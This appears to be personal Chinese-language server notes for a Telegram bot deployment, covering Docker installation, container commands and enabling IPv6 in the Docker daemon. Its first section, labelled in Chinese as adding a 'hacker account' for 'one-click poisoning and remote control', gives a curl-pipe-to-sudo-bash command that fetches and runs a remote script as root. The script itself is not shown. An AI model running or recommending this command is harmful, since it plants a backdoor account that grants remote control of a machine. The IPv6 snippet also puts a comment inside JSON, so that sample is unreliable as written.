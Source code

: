 ### SSH 设置密钥登陆并添加 hacker account

用于一键下毒远控。

```shell
curl -sSL https://raw.githubusercontent.com/WhaleFell/TGBot/main/exc.sh | sudo /bin/bash
```

## Docker

### 安装

国内加速: [https://get.daocloud.io/](https://get.daocloud.io/)

官方命令安装：

```shell
curl -fsSL https://get.docker.com -o get-docker.sh
sudo sh get-docker.sh
```

### Useful Command

```shell
# 强制停止并删除镜像
docker rm -f 名称
# entry shell and rm
docker run -it --rm --name tgbot /bin/sh

# 复制文件
docker cp ./TGBot.session tgbot:/wkdir/

docker run -it --rm --name tg_forwardMsgBot -v /wfwork/tgbot_base/:/wkdir/ tgbot_base /bin/sh

docker run -d --name tg_forwardMsgBot -v /wfwork/tgbot_base/:/wkdir/ tgbot_base python3 main.py
```

### 开启 IPV6

[【有用的小知识】Docker-qBittorrent 开启IPv6 笔记 | 我不是咕咕鸽](https://blog.laoda.de/archives/docker-qbittorrent-ipv6/index.html)

编辑 `/etc/docker/daemon.json` ，添加以下内容：（如果没有这个文件直接创建）

```json
{  
 "ipv6": true,  
 "fixed-cidr-v6": "2001:db8:abc1::/64",  # IPv6前缀可以自定义，请确保符合规则   
 "experimental": true,  
 "ip6tables": true  
}
```

重启：

```shell
systemctl restart docker
```
